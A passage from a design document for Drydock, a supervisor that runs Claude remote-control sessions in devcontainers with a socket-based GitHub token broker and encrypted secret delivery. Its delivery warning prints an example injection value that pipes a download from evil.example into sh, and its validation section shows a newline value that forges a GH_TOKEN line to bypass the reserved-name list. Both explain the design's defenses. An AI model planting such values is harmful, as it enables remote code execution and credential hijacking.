> - ANSI cursor movement rewrites the status block in place, so the same line recurs constantly in the stream. The tail must be idempotent — upsert by id, which this section already requires.
> - **The pre-created session counts toward capacity**, so `--capacity 4` buys three on-demand sessions, not four.
>
> `--continue` is not an option for resuming: it cannot be combined with `--spawn` or `--capacity`. A plain restart is the resume path, and per the table above it is the one that works.

> [!NOTE]
> **Observed, not owned — and not enumerated**
>
> Drydock never creates a session. There is no interface for it to — sessions come into being when you tap *new session* at claude.ai or in the app, and the server spawns a worktree for it. Drydock's role is to notice, so `rc_session` is a cache of something happening elsewhere. If it drifts, the Claude app is right and Drydock is wrong.
>
> **The UI links out rather than listing.** The workspace card carries one link — the primary session's URL — plus a count, and the Claude app's own session list does the browsing. It is already better at that than a card would be, and reimplementing it would mean keeping a mirror of remote state accurate for no gain. The count is the part that earns its keep: it is what makes *stop* an informed action instead of a blind one (§14).
>
> One consequence to hold onto: worktrees are created by the server without asking, so deleting a workspace has to remove them as well as the clone. `git worktree list` on the clone is the authoritative source there, not the database.

> [!NOTE]
> **As built, Phase 5 (`internal/supervisor`, `container/session.go`)**
>
> - **The invocation.** `devcontainer exec --workspace-folder <clone> --id-label <prefix>.workspace=<id> [--override-config …] --remote-env DRYDOCK_WORKSPACE=… --remote-env DRYDOCK_REPO=… --remote-env CLAUDE_REMOTE_CONTROL_SESSION_NAME_PREFIX=<repo> -- sh -c '<launch>' sh <pidfile> 4`, on a 200×50 PTY from `subproc.StartPTY` (internal/pty under subproc's rules: resolved by name, no shell of Drydock's, `Env` replaces, cancel is SIGTERM). The launch line is a constant — `printf '%s\n' "$$" > "$1" && eval "$(drydock-secrets export || echo exit 69)" && exec claude remote-control --spawn worktree --capacity "$2" --verbose` — with the pid file and capacity as positional parameters, never interpolated. `sh`, not `bash -l`: the Feature supports Alpine, and a login shell's profile would print into the stream the supervisor scrapes. No `cd`: exec starts in the workspace folder, the one whose trust record the Feature wrote.
> - **Measured on CLI 0.89.0.** `devcontainer exec` gives the command a PTY in the container only when its own stdin and stdout are one, the inner size follows the outer, it runs as the remote user in the workspace folder, and it exits with the command's status. **SIGTERM to `devcontainer exec` ends the CLI and leaves the command running in the container**, re-parented, for good — Docker forwards no exec client's signals. So a stop never signals the local process: it runs `docker exec -u 0 <id> sh -c '<constant>' sh <pidfile> TERM` in every running container carrying the label, which signals the recorded pid only if `/proc/<pid>/cmdline` has a `remote-control` argument (so a stale file after a container restart is "no server", not a signal to whatever reused the pid) — and, when the kernel refuses the signal, says so (exit `4`) only if that pid is *still* a `remote-control`, so a pid that exited and was reused in that instant is "no server" too — waits for the local process to end (the CLI exits with the server), and only after 15 s sends `KILL` the same way. A **paused** container carrying the label is never "no server": Docker lists it under `status=paused`, not `status=running`, and refuses to exec into it (measured on Docker 29.8.2), and its processes are frozen rather than gone. So the signal is `container.ErrSessionContainerPaused`, nothing is sent, and Drydock's terminal is kept.
> - **A Drydock restart leaves the servers serving.** Shutdown closes Drydock's terminals and signals nobody (Spike 02: sessions survive and reconnect). Every terminal is closed at once, a run still reading after a stop that failed on a paused container included — that stop had already cancelled the run's context, so shutdown's cancel alone was news to no one, and the run held shutdown to its bound (10 s) and cut short the wait for every other supervisor. A stop under way keeps its terminal until it has decided, since closing it would read to the stop as the server ending. Boot adoption — after reconciliation and the broker sockets — starts a supervisor for every `running` workspace with no job in flight, and every start first stops any server the pid file names (SIGTERM, so it deregisters and its sessions reconnect to the new one in about two seconds). Without that the new start would be refused as *already served* for as long as the orphan lived. The exception is a container whose broker socket is mounted as a file (§6, *A container an earlier Drydock made*): its server could only fail its prelude on every launch, so it is not started, and the server already there is left alone; the supervisor is recorded `degraded` with reason `stale_broker_mount` and the sentence asking for a rebuild, and the card shows *Container misconfigured* with Rebuild, whose stop half stops that server first.
> - **Exit classification**, all on `classify.ClassifyRefusal` over the run's last 32 KB, never the exit status: *already served* → `waiting_registration`, retried every 15 s, uncounted, and the card's line does not flicker back to *starting* between attempts; *organization* → `awaiting_login`, not retried; *not trusted* and *--spawn* → `degraded`, not retried; a prelude failure (`drydock: secrets unavailable`) and anything else → a crash. Crashes back off 2 s doubling to 60 s; the seventh within ten minutes parks in `degraded` (`budget_spent`). Each state carries a `reason` code — `launching`, `backoff`, `wait_registration`, `no_organization`, `signed_out`, `not_trusted`, `bad_command_line`, `hang_remote_dialog`, `hang_trust`, `budget_spent`, `stale_broker_mount`, `stop_failed`, `survived_kill`, `connected`, `stopped` — which is what the UI keys its sentence on.
> - **Hung gates.** A server with no environment 90 s after its start is hung: Drydock stops it (SIGTERM first) and only *then* reads what it printed to name the cause — `Enable Remote Control?` is a missing `remoteDialogSeen`, `Trust …? [y/N]` a missing `hasTrustDialogAccepted` — as `degraded`, not retried, never answered. A server that hangs at neither is a counted crash.
> - **Identity.** Before every start the stored `claude_identity.state` (§7.3) is read, through `identity.Watch.Read`; `blanked` or `absent` starts nothing and spends nothing: `awaiting_login` / `signed_out`. `expired` starts the server, which renews the access token (§2.4) — a test runs the real watch over the `expired.json` fixture (an hour lapsed, both tokens present) and the server starts, beside `blanked` and no file, which start nothing. A server that exits while the identity says so is not a crash either. An `auth.identity` event resumes the supervisors waiting on a login, for running workspaces only. An identity never checked does not block.
> - **Serving** is the environment announced and a `Capacity: N/M` line printed (that line follows `Connected`). Discovery re-reads the last 16 KB of raw output on every read with `classify.ClassifyDiscovery`, latches the first environment id per process (written to `workspace.environment_id`), upserts each new OSC 8 session id into `rc_session` (the first a supervisor sees is the primary), and emits `session.status` on any change. The raw bytes are transient; the log ring holds visible text, redacted (GitHub and Anthropic token shapes, bearer headers, credential query parameters, and the workspace's granted secret values from the broker's snapshot), repaint duplicates dropped. **The ring owns its redaction**: it is made with the source of the values and asks it on every write, flush and mark, and the one function that adds a line masks, so no path stores a line in clear — the held-back tail flushed when a server exits, when it is stopped or at a hang gate included. (Until draft v34 both flushes passed no values, and a final line with no line break carried a granted secret's value into `GET …/logs` unmasked.) It masks every value the source has ever returned, longest first, and never fewer: a value rotated out or a grant revoked is still in a running server's environment until it is restarted, and an undeliverable snapshot must not unmask what was masked. The source costs no query per read: the workspace's repository id is cached (it never changes), and the values are the broker's snapshot, which every secret write and grant change rebuilds — so the set is never stale, and a value granted a moment ago is masked from the next read.
> - **A stop that fails is a state, not just an error.** A restart is a stop and then a start, and the start is not attempted when the stop fails: a second server beside one that would not stop is refused as *already served* for as long as the first lives. Until draft v47 `Restart` returned the stop's error and wrote nothing, so the *Restart session server* press, which waits for the next `supervisor.state` (frontend §4.2), spun until a reload. Now every failed stop writes `degraded` with one of two reasons, because the two causes have different fixes and one message for both would offer a button that cannot work for one of them. **`stop_failed`**: Docker could not be asked — `docker ps` or `docker exec` failed delivering SIGTERM or SIGKILL, or whether the server exited could not be asked afterwards — so the server may still be running; *"…Ask again once Docker answers."*, and the card offers Restart session server. A paused container is `stop_failed` too, with its own sentence — *"…the workspace's container is paused, so its processes are frozen rather than gone and Docker will not signal them. Unpause the container and ask again, or stop the workspace."* — since asking again works once it is unpaused. **`survived_kill`**: SIGKILL was sent and the container says the server is still there, or the kernel in the container refused the signal (the signal script's exit `4`, `container.ErrSessionSignalRefused` — Docker answered, so not `stop_failed`); asking again cannot help, and only its container going ends it, so *"…Rebuild the workspace to replace the container; the clone is kept."*, and the card offers Rebuild (and keeps it under a signed-out fleet, since a sign-in cannot end it). The sentences are constants, never the error, which carries docker's stderr, and name no one caller, since every stop writes them. The event is written even when it repeats the last one — a second press that fails the same way is owed its own answer — where every other state is written only on a change. **The supervisor stays registered** after a failed stop (and one is made, with its row, when none was in memory, as for a server an earlier Drydock left; its first event then has no `from`, never the new row's placeholder), so the retry stops the same server and says *stopped* before it starts again; a start replaces a supervisor that is still stopping. A stop its caller cancelled (a delete cancelling the restart, shutdown) is not a failure and records nothing, and a restart cancelled after a good stop starts nothing: the delete's own events, or the next boot's adoption, say what happens next. A restart whose start fails after a good stop for any other reason — its row unreadable — writes `degraded` / `start_failed`, *"…Restart the session server to try again."*, since the stop's `exited` does not end the press.
>
>   **Drydock's terminal closing is not the server ending.** SIGKILL to a `docker exec` client leaves the process it started running in the container, and closes Drydock's terminal all the same (measured on Docker 29.8.2 in the devcontainer's DinD). So a stop of a server Drydock holds the terminal for that reaches its last resort — SIGKILL in the container, then killing Drydock's own end — asks the container through the pid file whether the server is gone before it calls the stop done, exactly as for a server it has no terminal for. Until draft v47 it took the terminal's end for the server's, wrote *"The session server was stopped."* and started a second server beside one still running. The usual path is unaffected: a server that exits on SIGTERM or SIGKILL ends its `docker exec`, which ends Drydock's end. The container tier counts the servers in the container after a restart from serving — exactly one, the new one.
>
>   **Every start checks first, too.** Every start stops the server an earlier run left (boot adoption, a rebuild's step 8, each registration retry). One in a paused container is recorded as `stop_failed` with the paused sentence and nothing is started, since a `devcontainer exec` into it fails and the launch would only spend the restart budget. One that outlives SIGKILL there is recorded as `survived_kill` and nothing is started: a second server would be refused as *already served*, shown as a wait that never clears, and would overwrite the pid file that is the only way to reach the first.
>
>   **A workspace stop or delete goes on to the container.** Each stops the session server first, so it can deregister (Spike 02); one that outlived SIGKILL never will, and asking again cannot end it. Its next sub-step — `docker stop`, or `docker rm --force` — ends every process in the container, so `session_server` is done with a note, *"The session server was still running after SIGKILL, so it ends with the container, in the next step."*, and the action carries on: stopped there, a stop would offer Stop for good and a delete would be stuck in `deleting` with no way out. A rebuild already carries on, since `up --remove-existing-container` ends the server with its container. A Docker failure (`stop_failed`) still stops a workspace stop or delete at that sub-step, with Stop or *Delete again* the button, which work once Docker answers.
>
>   **A paused container is unpaused first, by a workspace stop, rebuild or delete — never by a restart.** Each of those three ends the container anyway, and ending a paused one does not give its server a SIGTERM: `docker stop` thaws a paused container to signal PID 1 alone (measured on Docker 29.8.2: under the CLI's PID 1, which exits on SIGTERM, the stop takes under a second and ends `exited 0`), PID 1's exit SIGKILLs everything else, and `docker rm --force` kills outright. A server ended so never deregisters, and the next start spends one to three minutes in `waiting_registration` (Spike 02). So before stopping the server each of them runs `docker unpause` on every paused container carrying the workspace's label, and then the usual SIGTERM-first stop; `session_server`'s note says *"The workspace's container was paused, so Drydock closed its GitHub access and unpaused it to stop the session server, SIGTERM first, …"*, and a `container.unpaused` event puts it in the workspace's feed, a rebuild's included.
>
>   What that trades is worth stating plainly. The gain is a convenience: the next start does not wait out a stale registration. The cost is that the unpause resumes *every* process in the container, not just the server — an agent's in-flight tool command, a half-done `git push` — for as long as the stop takes (up to `StopTimeout` plus `KillWait` when the server is slow), and a pause may have been the operator's brake on exactly that agent. So **the workspace's broker socket is closed before the unpause** (§9.1: access follows Drydock's state, and the workspace is on its way out): whatever runs in that window gets no *new* token or secret — a fresh `git` or `gh` call fails, and a tool command whose secrets prelude has not run yet exits 69, so the command does not run. Closing the socket withholds only what is fetched after it: a process frozen after its fetch keeps what it holds — a `git push` past its credential helper keeps that token, which stays valid for up to an hour, and a command whose prelude already ran keeps its secrets in its environment. The server needs neither to deregister: its secrets are in its environment from launch, and deregistering talks to Anthropic, not GitHub. A stop and a delete close the socket in their own sub-step anyway, and a rebuild reopens it at step 5. If the socket cannot be closed, nothing is unpaused. The window still exists — frozen code runs for a few seconds, with whatever credentials it already held and no new ones, before the container ends — and an operator who wants none at all can remove the container by hand instead.
>
>   **An action that stops short pauses the container again.** If the stop or delete then halts at `session_server` (Docker failing after the unpause), or the job is cancelled (shutdown, a delete), or a rebuild fails before its step 3 has stopped the old container, every container the action unpaused that is still running is paused again on a context of its own (so a cancelled job still does it), and a `container.repaused` event says so. A stop, whose workspace stays `running`, then reopens the socket, which restores exactly the state it found; a delete, whose workspace is `deleting`, leaves it closed. The failure's detail says which: *"…it is paused again, as it was."*, *"…paused again, with its GitHub access closed."*, or, when the re-pause itself fails, *"…could not pause it again: it is running, with its GitHub access closed."*. A stop whose workspace stays `running` without its access — the re-pause or the reopen failed — adds how to get it back: *"To restore its GitHub access, stop the workspace and start it again, or rebuild it."* A stop that a delete cut off finds its workspace `deleting` and reopens nothing. A container the action did end is not running and is left alone.
>
>   A *Restart session server* asks to keep the container as it is, so it never unpauses and answers with the paused `stop_failed` above (tested: the fake `docker` sees no `pause` or `unpause`). A pause between the unpause and the stop is unpaused once more and the stop asked again. One that stays paused — Docker would not unpause it, or the socket could not be closed — carries on to the container step as for `survived_kill`, with the note *"…Drydock could not unpause it, so the session server could not be signalled; it ends with the container, in the next step. Ended that way it does not release its environment, so the next start may wait a few minutes for it."*; stopped there instead, a delete would be stuck until someone unpaused the container by hand. The signal itself tells a pause it did not see coming from Docker failing: a container paused between `SignalSession`'s listing and its `docker exec` is refused like a Docker failure (exit 1), so after a refused exec the paused containers are listed again, never the daemon's wording parsed, and one listed is the paused case. A pause that lands while a stop waits for its server to exit is noticed at Drydock's next question to the container: at once for a server Drydock has no terminal for (its exit is polled through the pid file) and after SIGKILL; for one Drydock holds the terminal of, whose wait is on that terminal, only when SIGKILL is sent at the end of the grace period. Either way the stop then ends as the paused `stop_failed`, sending nothing more.
> - **The supervisor row** is one per workspace, kept across restarts (`restart_count` is cumulative), and goes with the workspace. Liveness from the connection-status line is not built: a server that stays up but disconnected stays `serving` until it exits.

## 9. GitHub credentials

The requirement is that Claude inside a container can push, open PRs, and touch workflows — for one repo. The stated goal from the existing setup is the sharp part: *not* full SSH agent or credential access, which is what the current VS Code flow effectively grants.

### 9.1  Why a broker rather than an injected token

An installation token lives one hour. Injecting it as an environment variable at `devcontainer up` gives a container that can push for an hour and then fails in a way that looks like a network error. Re-injecting means restarting the container. So the token must be fetched at use time, which means something inside the container must be able to ask for one — and whatever it asks must not be able to lie about which repo it is.

The bind-mounted Unix socket solves that cleanly. **The socket path is the identity.** One socket per workspace, bound at creation to that workspace's repository, mounted into that container and no other. A request carries no repo parameter because it cannot be trusted to.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="diagrams/03-credential-broker-dark.svg">
  
</picture>

**Fig 3** — *Nothing on the container side of the dashed line survives the process that fetched it. Remove the socket mount and the container loses GitHub access instantly, with no image rebuild and no token to revoke.*

As built in Phase 6, that is what stop and delete do: each closes the workspace's socket, so a stopped or deleted workspace has none, and a connection to the old path is refused. So does a provisioning run that ends `failed`, even when its container is still up — access follows Drydock's state, and `failed` is not handed over. Start and rebuild reopen it at step 5 (§6).

What is mounted is the workspace's own directory, `/run/drydock/sock/<id>/` at `/run/drydock`, holding that workspace's socket and nothing else — never the shared parent, which would hand every container every socket. That keeps the identity property exactly as the file mount had it (one container, one socket) and fixes what the file mount broke: a bind mount pins an inode, so a mounted socket file died with the process that bound it, and a restart stranded every running container. A mounted directory survives the socket inside it being replaced (§6 step 5). The cost is that root in the container can write in that directory, since the CLI cannot mount it read-only; it is the container's own and no other's, so what it can put there reaches only itself, and the broker binds and chmods the socket outside it and renames it in.

### 9.2  Two consumers, one broker

**git** is the easy one. Git's credential protocol is designed for exactly this: the helper reads a request on stdin, prints `username` and `password` on stdout, and git never persists either.

```
# installed by the feature into ~/.gitconfig
[credential "https://github.com"]
    helper = /usr/local/bin/drydock-credential
    useHttpPath = false

# drydock-credential — get operation only; store/erase are no-ops
get) printf 'username=x-access-token\npassword=%s\n' "$(ask_broker git)" ;;
store|erase) exit 0 ;;
```

**`gh`** is the awkward one, because it wants `GH_TOKEN` in the environment and an environment variable cannot refresh itself. The fix is a shim earlier on `PATH` that fetches a fresh token per invocation:

```bash
#!/usr/bin/env bash  — /usr/local/bin/gh, ahead of the real binary
GH_TOKEN="$(ask_broker gh)" exec /usr/bin/gh.real "$@"
```

Per-invocation minting is cheap because the broker caches by permission set for 55 minutes, so a run of twenty `gh` calls makes one GitHub request. Each token is recorded once, as a `token_grant` row written before it is first served: the row is the only answer to "which workspaces held a token for this repository, and when?" — GitHub's own log names the App, not the workspace — so, like `GET-SECRETS` and `secret_access` (§10.4), a token whose row cannot be written is not served (`unavailable`), and the next request retries the write against the same cached token. Built, the shim finds the real `gh` by walking `PATH` past its own directory rather than relying on a renamed binary, so the Feature does not have to move the image's `gh` aside. The helper answers only for `github.com`, so a repository naming another remote never receives the token. `DRYDOCK_GITHUB_HOST` overrides the host for the tests' fake remote. That opens nothing, because whoever can set it in the container can already ask the socket for the token. All three clients are POSIX `sh` over `socat`, or OpenBSD `nc -U` where `socat` is absent, and every failure is one stderr line beginning "GitHub access unavailable" (§12). The alternative — teaching Claude to re-export a token — is a rule in a prompt, and rules in prompts are not a security boundary.

### 9.3  Permissions

The App is granted a superset; each minted token requests only what the caller needs. Two scopes are enough.

| Permission | `scope=git` | `scope=gh` | Needed for |
|---|---|---|---|
| `metadata: read` | ✓ | ✓ | Mandatory baseline for any installation token. |
| `contents: write` | ✓ | ✓ | Clone, fetch, push, create branches. |
| `pull_requests: write` | — | ✓ | Open, update, and comment on PRs. |
| `issues: write` | — | ✓ | PR comments are issue comments in the API. |
| `workflows: write` | ✓ | ✓ | **Required to push any change under `.github/workflows/`.** Without it, pushes that touch a workflow file are rejected with a confusing error. |
| `actions: write` | — | ✓ | Read run status, dispatch and re-run workflows. |
| `checks: read` | — | ✓ | Read check results on a PR before deciding what to fix. |

> [!NOTE]
> **Authorship and branch names**
>
> Commits made with an installation token are attributed to the App's bot identity, not to a human. Set `user.name` / `user.email` in the feature to the App's bot address (`<bot-user-id>+<app-slug>[bot]@users.noreply.github.com`) so history is honest about which commits an agent made. The number is the bot **user's** id, from `GET /users/<app-slug>%5Bbot%5D` — not the App ID, which is a different number (for this deployment's App, 337840004 against 5189455). An address built from the App ID is well-formed, so nothing rejects it; the commits simply fail to link to the bot account, which is the quiet failure this note exists to prevent.
>
> Agent branches go under a `drydock/` prefix, set as the feature's default push namespace rather than left to the model to remember. Same reasoning as the bot identity, applied to refs: cleanup becomes one `git push --delete` glob instead of an audit, and the GitHub branch list tells you at a glance which work an agent did. A convention the model has to follow is not a convention; configure it.

### 9.4  What this deliberately gives up

An installation token cannot act as you. It cannot approve its own PR, and anything gated on human review stays gated. Repos not covered by the App installation are invisible — which is the point, but it means adding a repo to Drydock is a GitHub-side action (extend the installation), not a Drydock-side one. The UI should link straight to the installation settings page when a repo the user expected is missing.

## 10. Repository secrets

A session that can't reach a test database, a staging API, or whatever third-party service the repo integrates with can write code but can't check it. So workspaces need credentials beyond GitHub — and those credentials are a different animal from the ones in §9.

|  | GitHub credentials (§9) | Repository secrets (this section) |
|---|---|---|
| Origin | Minted on demand by the broker | Values you paste in once |
| Lifetime | One hour, then gone | Until you rotate them |
| Scope | Enforced by GitHub, per repo, per permission | Whatever the far service decides — Drydock has no say |
| If one leaks | Expires before you finish reading the alert | You are rotating it by hand, wherever it came from |

That last row is the whole design problem. The broker's cleverness in §9 comes from GitHub letting it mint narrow, expiring tokens; nothing here offers that. What Drydock can control is *which* secrets reach *which* workspace, and how visible that decision is when you make it.

### 10.1  The model

A secret is a name, a value, a declared reach, and a set of repo grants. **Default deny**: storing a secret grants it to nothing. It reaches a workspace only because you said that repo may have it.

| Field | Notes |
|---|---|
| `name` | Also the environment variable name, so it must match `[A-Z_][A-Z0-9_]*`. Validated on write, not at injection time — see the reserved list below. |
| `value` | Encrypted at rest (§10.2). Write-only through the API: the UI shows metadata and never returns a stored value. Must be a single line — see *Value validation* below, which is a security control rather than tidiness. |
| `reach` | A required sentence answering “what can someone do with this?” Free text, but not optional. §10.4 explains why this field exists and why it is the actual security control. |
| `description` | Where it came from and how to rotate it. Written now, read at 2am in six months. |
| grants | Rows in `secret_grant`, one per repository. An `all_repos` flag exists for the genuinely universal ones and the UI treats choosing it as a decision, not a shortcut. |
| `inject_hosts` | Unused today. §10.5 explains the door it holds open. |

#### Reserved names

Secret names become environment variables in the session process, which means a badly chosen one silently breaks the system rather than failing loudly. Drydock refuses these on write:

- `ANTHROPIC_BASE_URL`, `DISABLE_TELEMETRY`, `DO_NOT_TRACK`, `CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC`, `DISABLE_GROWTHBOOK` — each one disables Remote Control (§2.1). A secret that quietly turns off the feature the whole system exists for is the worst possible failure mode: everything builds, nothing connects.
- `GH_TOKEN`, `GITHUB_TOKEN` — would shadow the `gh` shim's per-invocation token from §9.2, replacing an expiring repo-scoped credential with a static one.
- `CLAUDE_CONFIG_DIR`, `PATH`, `HOME`, `SHELL`, `ANTHROPIC_API_KEY`, `CLAUDE_CODE_OAUTH_TOKEN` — each breaks something in §7 or §9 in a way that looks like an unrelated bug.

**As built, the list is wider than those three bullets, and by prefix where a whole family is somebody else's.** Writing it down name by name exposed that the bullets above are examples of four rules, not the rules themselves (`internal/secrets/validate.go` carries the reason for each, and the refusal quotes it):

| Refused | Because |
|---|---|
| `CLAUDE_*`, `ANTHROPIC_*`, `DISABLE_*`, `DO_NOT_TRACK` | Claude Code reads them itself. Beyond the Remote Control killers: `CLAUDE_ENV_FILE` replaces this very delivery mechanism, and `DISABLE_AUTOUPDATER` is what the version pin rests on (§11). |
| `GH_*`, `GITHUB_TOKEN`, `GITHUB_ENTERPRISE_TOKEN`, `GIT_*` | They shadow the broker's credentials. `GIT_CONFIG_COUNT`/`KEY`/`VALUE` can replace the credential helper and `core.hooksPath` — the branch guard — without touching a file. |
| `DRYDOCK_*` | Drydock's own clients read them: `DRYDOCK_BROKER_SOCK` points them at another socket, `DRYDOCK_GITHUB_HOST` hands the token to another host. |
| `PATH`, `LD_*`, `HOME`, `SHELL`, `USER`, `LOGNAME`, `PWD` | Which code every command runs, and what everything else is resolved against. |
| `BASH_*`, `ENV`, `IFS`, `CDPATH`, `PS4`, `PROMPT_COMMAND`, `SHELLOPTS`, `BASHOPTS`, `GLOBIGNORE`, `UID`, `EUID`, `PPID`, `_` | The shell the prelude runs in. `BASH_ENV` runs a file before every command; `UID`, `EUID` and `PPID` are read-only in bash, so `export UID=…` would be an error *inside the prelude*, on every command. |
| `NODE_OPTIONS`, `NODE_EXTRA_CA_CERTS`, `NODE_TLS_REJECT_UNAUTHORIZED` | Claude Code is a Node program; these load code into it or change whom it trusts. |
| `HTTP_PROXY`, `HTTPS_PROXY`, `ALL_PROXY`, `NO_PROXY`, `SSL_CERT_FILE`, `SSL_CERT_DIR`, `CURL_CA_BUNDLE` | They route the broker's GitHub tokens and the session's traffic through, or teach it to trust, whatever the value names. |

Lowercase spellings (`http_proxy`) need no entry: the name pattern is uppercase. Names are at most 128 characters.

#### Value validation

Names are validated because a bad one breaks the system quietly. **Values are validated because a bad one is an injection**, and the reason is in §10.3: a value travels to the container over a line-oriented socket protocol and arrives as shell text. Drydock therefore refuses, on write:

- **Any control character** — `\n`, `\r`, and NUL in particular. A newline inside a value forges an extra `NAME value` line in the `GET-SECRETS` response (§10.3), and a forged line is how the reserved-name list above gets bypassed: a value of `hunter2\nGH_TOKEN ghp_…` delivers a second secret the list never saw, shadowing the `gh` shim's expiring repo-scoped token with a static attacker-chosen one.
- **An empty value.** Nothing downstream can distinguish it from an unset variable, so storing one buys a grant that silently does nothing.

As built, "control character" is Unicode's category Cc — C0, DEL and C1, tab included — and bytes that are not UTF-8 are refused with it; a value is at most 32 KiB, because every one is in the environment of every command and Linux caps a single environment string at 128 KiB. The refusal names the character and its byte offset, never the value. A multi-line credential, such as a PEM, is stored as base64.

Rejecting at write time rather than escaping at delivery time is deliberate, and it is the same choice as the reserved-name list: the write is a human action with an error message attached, while delivery is a socket read inside a container where the only options are to fail a session or to guess. It also keeps the protocol in §10.3 small enough that the in-container client can stay a shell script, which is the property that makes it auditable at a glance.

### 10.2  Storage

Values are encrypted before they touch SQLite. A master key is supplied by the service manager as a file-based credential, read once at startup and held in memory; each value is sealed with XChaCha20-Poly1305 under a per-secret nonce, with the secret's id as associated data so a row cannot be swapped for another. The database file then holds ciphertext and nothing else.

The threat this addresses is not an attacker with root on the dev server — that person already has the GitHub App key and the Docker socket, and §13.4 says so plainly. It is the far likelier one: the SQLite file ends up somewhere its contents were not thought about. A backup, a snapshot, a copy pulled off to debug something, a disk that leaves the house. Encryption at rest turns all of those from an incident into a non-event, and it costs one dependency and about forty lines.

As built (`internal/secrets`): the master key is a file of exactly 32 raw bytes, passed as `--secrets-key=<path>` and refused at startup if its group or anyone else can read it — `drydock serve` does not start rather than serve with secrets silently off. `deploy/install.sh` creates it on the first install, from `/dev/urandom`, at `/etc/drydock/secrets.key`, `0400`, owned by `drydock`, without printing it — or, given `--secrets-key <path>`, installs that file instead, which must be exactly 32 raw bytes, so an operator can keep the key in their own secret store (an Ansible vault, say) and never needs a backup of one the installer made. Like the App key's flag, it carries a path, never the key, and is not recorded in `drydock.env`. Every later run keeps the installed key, and one that is not a 32-byte file is **refused rather than replaced**, because a new key makes every stored value unreadable and that is a decision for a person with a backup, not an installer. A `--secrets-key` that differs from the installed key replaces it **only while no secret is stored**: the installer asks the database with `drydock count-secrets` — read-only, without the instance lock or a migration, as the new binary and as `drydock`, so it needs no `sqlite3` on the host and cannot leave an older running server facing a newer schema — and asks again with the service stopped, so nothing is written under the old key between the answer and the swap. With a secret stored it refuses and changes nothing. It never deletes or re-seals a secret: a key that decrypted every stored row would have to be the installed key, so "none stored" is the whole rule. Each write seals under a fresh 24-byte nonce with the secret's ULID as associated data. A PUT whose value equals the stored one (compared after decrypting, in constant time) is not a rotation; a stored row that no longer opens — a replaced key — is overwritten by the next PUT of its name, which is how a lost key is recovered from: by storing every value again. `GET /api/secrets` names each row that does not open (§10.3, *As built*), so the operator has the list to work through. A PUT with no value changes the prose and never touches the ciphertext, so it neither repairs such a row nor needs it to open.

### 10.3  Delivery

Secrets ride the mechanism that already exists. The broker socket from §9 gains one verb, and the same property holds: the socket a request arrives on identifies the workspace, so a request carries no name of what it wants access to.

```text
→ GET-SECRETS
← OK count=3
← TEST_DATABASE_URL postgres://…
← STRIPE_TEST_KEY sk_test_…
← S3_STAGING_SECRET …
← END
```

> [!WARNING]
> **Two places where an arbitrary byte string meets a textual channel**
>
> The protocol above is line-oriented and its output is consumed by `eval`. Secret values are arbitrary bytes. Both halves of that need a rule, or a stored value becomes code:
>
> | Channel | Rule | Without it |
> |---|---|---|
> | the socket response | values are single-line, enforced at write (§10.1); the client **fails the fetch** if `count=` disagrees with the number of lines received | a newline in a value forges a second `NAME value` line and bypasses the reserved-name list |
> | `eval "$(drydock-secrets export)"` | `export` emits every value **single-quoted**, with embedded single quotes escaped as `'\''` | a value of `'; curl -s evil.example/x \| sh; '` runs as the remote user, with the broker socket mounted |
>
> The second one is the sharper of the two now that the prelude below runs before *every* Bash command rather than once per supervisor start: an unquoted value is not executed once, it is executed continuously. Neither rule is expensive — one validator and one quoting function — and both are the kind of thing that is obvious in hindsight and invisible in prose, so they are stated as rules rather than left to the implementation. The counter-check is a property test: for arbitrary byte strings, `eval "$(drydock-secrets export)"` must leave the variable byte-identical to what was stored.
>
> Note that Spike 03's finding that values stay out of `ps` is **not** a substitute. That holds because the helper is *invoked* from the prelude rather than inlined, and says nothing about whether its output is safe to `eval`.

The supervisor materializes them into the session process's environment at exec time, through a helper that reads the socket *inside* the container:

```bash
devcontainer exec --id-label drydock.workspace=$WS -- \
  bash -lc 'eval "$(drydock-secrets export || echo exit 69)" && cd /workspace && \
    exec claude remote-control --spawn worktree --capacity 4'
```

Everything about that line is deliberate. Values never appear in `argv`, so they stay out of `ps` on the host. They never touch a file, so there is nothing to leave behind on container stop. They are not in the image, not in `containerEnv`, and not in `docker inspect`. And because `claude` is the process that receives them, every test command it spawns inherits them — `pytest`, `jest`, and `go test` read `os.environ` and find what they expect with no adapter and no repo change. That compatibility is the main thing plain environment variables buy, and it is a real advantage.

#### Why not the mechanisms that look easier

| Alternative | Why not |
|---|---|
| `devcontainer up --secrets-file` | Baked in at container creation. Rotating a secret means rebuilding, and the workspace's unpushed work is in the way. |
| `containerEnv` in the config | Same rebuild problem, plus the values land in the container's inspect output. |
| A `.env` in the working tree | One `git add -A` from being committed and pushed by an agent that is explicitly allowed to push. |
| Fetch-on-every-read from the app | Would be tidier, and every test framework on earth expects environment variables instead. |

For the occasional tool that insists on a file rather than the environment, the helper can write one to `/run/drydock/env` on a `tmpfs`, mode `0600`, owned by the remote user — in RAM, gone on stop, and outside the working tree so no `git add` can reach it.

#### Adding or rotating a secret on a live session

The intuition is that the session process captured its environment at `exec`, so a new secret needs a restart. That intuition is right about the process and wrong about the consequence, because of how the Bash tool works: **Claude Code spawns a separate process for each Bash command** rather than holding a persistent shell. Environment variables explicitly do not persist between commands — an `export` in one command is gone by the next. What looks like a limitation is the opening: if each command's environment is composed at spawn time, something can compose it from current values.

And the broker always has current values. It is not a snapshot handed over at session start; it is a live socket that has been sitting there the whole time. Two ways to use that, and they differ in whether the agent has to cooperate:

| Route | Mechanism | Confidence |
|---|---|---|
| **The command pulls** | `eval "$(drydock-secrets export)" && pytest`. Plain shell, no Claude Code internals involved, works the moment the helper exists. | Certain, but it is a convention — it works when the instruction to do it is in front of the agent. The shared `CLAUDE.md` submodule is the natural place to put it. |
| **The environment pulls** | `CLAUDE_ENV_FILE` points at a script that runs `eval "$(drydock-secrets export || echo exit 69)"`. Mechanical, no agent cooperation, no restart. | **Verified — this is the answer** ([Spike 03](../spikes/03-claude-env-file.md)). The script runs once per Bash command, in the command's own shell: three calls in one session saw three different values. The convention above becomes the fallback. |

> [!WARNING]
> **Four constraints come with `CLAUDE_ENV_FILE`, and three of them bite quietly**
>
> From [Spike 03](../spikes/03-claude-env-file.md). The mechanism is not "a file of `KEY=value` pairs read into an environment" — Claude Code reads the file as **text** and prepends it, as shell code, to every Bash command.
>
